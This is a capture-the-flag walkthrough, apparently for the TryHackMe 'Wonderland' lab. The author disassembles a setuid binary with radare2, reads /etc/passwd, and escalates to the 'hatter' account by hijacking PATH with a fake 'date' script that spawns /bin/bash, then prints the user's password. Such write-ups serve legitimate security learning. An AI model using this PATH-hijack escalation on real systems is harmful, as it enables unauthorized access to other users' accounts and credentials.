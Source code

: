 1) I'll use a tool called radare2 to disassemble the binary, though:
```
┌──(kali㉿kali)-[~]
└─$ r2 -d teaParty
[0x7fcdfaee7950]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x7fcdfaee7950]> afl
0x55f6177a2090    1 43           entry0
0x55f6177a4fe0    4 4124 -> 4126 reloc.__libc_start_main
0x55f6177a20c0    4 41   -> 34   sym.deregister_tm_clones
0x55f6177a20f0    4 57   -> 51   sym.register_tm_clones
0x55f6177a2130    5 57   -> 50   sym.__do_global_dtors_aux
0x55f6177a2080    1 6            sym.imp.__cxa_finalize
0x55f6177a2170    1 5            entry.init0
0x55f6177a2000    3 23           sym._init
0x55f6177a2230    1 1            sym.__libc_csu_fini
0x55f6177a2234    1 9            sym._fini
0x55f6177a21d0    4 93           sym.__libc_csu_init
0x55f6177a2175    1 80           main
0x55f6177a2070    1 6            sym.imp.setuid
0x55f6177a2060    1 6            sym.imp.setgid
0x55f6177a2030    1 6            sym.imp.puts
0x55f6177a2040    1 6            sym.imp.system
0x55f6177a2050    1 6            sym.imp.getchar
0x55f6177a1000    3 208  -> 197  loc.imp._ITM_deregisterTMCloneTable
[0x7fcdfaee7950]> pdf@main
            ; DATA XREF from entry0 @ 0x55f6177a20ad
┌ 80: int main (int argc, char **argv, char **envp);
│           0x55f6177a2175      55             push rbp
│           0x55f6177a2176      4889e5         mov rbp, rsp
│           0x55f6177a2179      bfeb030000     mov edi, 0x3eb          ; 1003
│           0x55f6177a217e      e8edfeffff     call sym.imp.setuid
│           0x55f6177a2183      bfeb030000     mov edi, 0x3eb          ; 1003
│           0x55f6177a2188      e8d3feffff     call sym.imp.setgid
│           0x55f6177a218d      488d3d740e00.  lea rdi, str.Welcome_to_the_tea_party__nThe_Mad_Hatter_will_be_here_soon. ; 0x55f6177a3008 ; "Welcome to the tea party!\nThe Mad Hatter will be here soon."
│           0x55f6177a2194      e897feffff     call sym.imp.puts       ; int puts(const char *s)
│           0x55f6177a2199      488d3da80e00.  lea rdi, str._bin_echo__n_Probably_by___date___datenext_hour__R ; 0x55f6177a3048 ; "/bin/echo -n 'Probably by ' && date --date='next hour' -R"
│           0x55f6177a21a0      e89bfeffff     call sym.imp.system     ; int system(const char *string)
│           0x55f6177a21a5      488d3ddc0e00.  lea rdi, str.Ask_very_nicely__and_I_will_give_you_some_tea_while_you_wait_for_him ; 0x55f6177a3088 ; "Ask very nicely, and I will give you some tea while you wait for him"
│           0x55f6177a21ac      e87ffeffff     call sym.imp.puts       ; int puts(const char *s)
│           0x55f6177a21b1      e89afeffff     call sym.imp.getchar    ; int getchar(void)
│           0x55f6177a21b6      488d3d130f00.  lea rdi, str.Segmentation_fault__core_dumped_ ; 0x55f6177a30d0 ; "Segmentation fault (core dumped)"
│           0x55f6177a21bd      e86efeffff     call sym.imp.puts       ; int puts(const char *s)
│           0x55f6177a21c2      90             nop
│           0x55f6177a21c3      5d             pop rbp
└           0x55f6177a21c4      c3             ret
[0x7fcdfaee7950]> 
```

2) For me the segmentation fault is a red herring, as it is an encoded string. Then while the program is set as suid root, there is an explicit call to setuid and setgid 1003.
3) In our target machine, we can find out who this mysterious user is:
```
rabbit@wonderland:/home/rabbit$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
```
4) As you can see, the user we'll be taking control of shortly is the "hatter"
5) Let's take a closer look at our teaParty program. Most of the outputs are calls that output directly to the console, but one is a system call! The system call is composed of 2 commands:
```bash
/bin/echo -n 'Probably by ' &&
date --date='next hour' -R
```

6) The echo uses a hard path and is not exploitable, however, date doesn't. The program will be forced to look up the $PATH variable to find the date program. This is a common programmagn error that can be abused with a bit of path tampering.
7) Go in the tmp's directory:
```
rabbit@wonderland:/home/rabbit$ cd /tmp
```

8) I create new file "date", and I insert in this file the code that it'll spawn shell:
```
rabbit@wonderland:/tmp$ touch date && echo /bin/bash > date
```
9) chmod +x date
10)  Modify our $PATH:
```
rabbit@wonderland:/tmp$ export PATH=/tmp:$PATH
```
11) Execute teaParty:
```
rabbit@wonderland:/tmp$ ../home/rabbit/teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/tmp$ 
```

12) I got the password.txt:
```
hatter@wonderland:/$ cd home
hatter@wonderland:/home$ cd hatter
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?   <--- Password of Hatter
```
